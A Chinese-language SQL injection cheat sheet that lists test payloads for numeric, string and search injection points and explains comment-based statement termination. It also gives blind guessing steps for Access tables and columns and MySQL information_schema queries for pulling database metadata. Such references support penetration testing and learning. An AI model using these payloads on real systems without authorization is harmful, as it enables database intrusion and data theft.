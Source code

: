 **其他测试语句**

数字型：

* and 1=1/and 1=2
* or 1=1/or 1=2
* +、-、\*、/、>、<、<=、>=
* 1 link 1/1 link 2
* 1 in(1,2)/1 in(2,3)

字符型：

* and '1'='1/and '1'='2
* or '1'='1/or '1'='2
* +'/+'1、-'0/-'1、>、<、<=、>=
* 1' link '1/1' link '2
* 1' in('1')#/'1' in('2')#

搜索型

- x%' or 1=1#

### 终止式 SQL 注入

攻击者注入一段包含注释符的 SQL 语句，将原来语句的一部分注释，注释掉的部分语句不会被执行。

**SQL Server 和 Oracle**

* \-\- 用于单行注释
* /\* \*/ 用于多行注释

**MySQL**

* \-\- 或\-\-\-或\-\-\+ 用于单行注释
* \# 用于单行注释
* /\* \*/ 用于多行注释

## 常见数据库注入

### Access

#### 注入猜解过程

* 猜解表名 and (select)
* 猜解列名 and (select count(列名) from 表名)>0
* 猜解字段值长度 and (select len(列名) from 表名 where id=6)>10
* ASCII逐字解码法猜解字段值 and (select asc(mid(列名,2,1)) from 表名 where id=6)>96

> 表名和列名只能猜解，需要强大的字典，一般使用工具完成该过程

### MySQL

#### 获取元数据

MySQL5.0及以上版本提供了 information\_schema 库，通过它可以访问数据库元数据。

* `select schema_name from information_schema.schemata limit1`
* `select group_concat(table_name) from information_schema.tables where table_schema=database()`
* `select group_concat(column_name) from information_schema.columns where table_name=0x7573657273`
